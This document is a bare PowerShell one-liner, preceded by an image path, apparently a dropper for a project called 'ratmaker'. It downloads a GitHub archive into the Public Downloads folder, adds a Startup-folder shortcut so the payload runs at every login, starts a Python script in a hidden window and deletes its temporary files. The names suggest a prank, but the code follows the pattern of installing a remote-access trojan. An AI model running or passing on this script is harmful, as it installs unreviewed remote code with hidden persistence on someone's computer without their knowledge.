 $Repo="https://github.com/CamWuzHere/ratmaker"; $Branch="main"; $Public="C:\Users\Public\Downloads"; $Startup=[Environment]::GetFolderPath("Startup"); $TempZip=Join-Path $env:TEMP "ratmaker.zip"; $TempDir=Join-Path $env:TEMP ("ratmaker_" + [guid]::NewGuid().ToString()); if(-not(Test-Path $Public)){New-Item -Path $Public -ItemType Directory -Force | Out-Null}; Invoke-WebRequest "$Repo/archive/refs/heads/$Branch.zip" -OutFile $TempZip -UseBasicParsing; Expand-Archive $TempZip -DestinationPath $TempDir -Force; $Root=Get-ChildItem $TempDir -Directory | Select-Object -First 1; Get-ChildItem $Root.FullName -Force | ForEach-Object { $dest=Join-Path $Public $_.Name; if ($_.PSIsContainer){Copy-Item $_.FullName -Destination $dest -Recurse -Force} else {Copy-Item $_.FullName -Destination $dest -Force} }; $Rat=Join-Path $Public "rat.jpg"; if(-not(Test-Path $Rat)){[IO.File]::WriteAllBytes($Rat,[System.Text.Encoding]::ASCII.GetBytes("RAT_PLACEHOLDER"))}; $Shortcut=New-Object -ComObject WScript.Shell; $Link=$Shortcut.CreateShortcut((Join-Path $Startup "RatSpawner.lnk")); $Pythonw=Join-Path $Public "pythonw.exe"; $Link.TargetPath=$Pythonw; $Link.Arguments="`"$Public\rat.pyw`""; $Link.WorkingDirectory=$Public; $Link.Save(); Start-Process -FilePath $Pythonw -ArgumentList "`"$Public\rat.pyw`"" -WindowStyle Hidden; Remove-Item $TempZip -Force; Remove-Item $TempDir -Recurse -Force
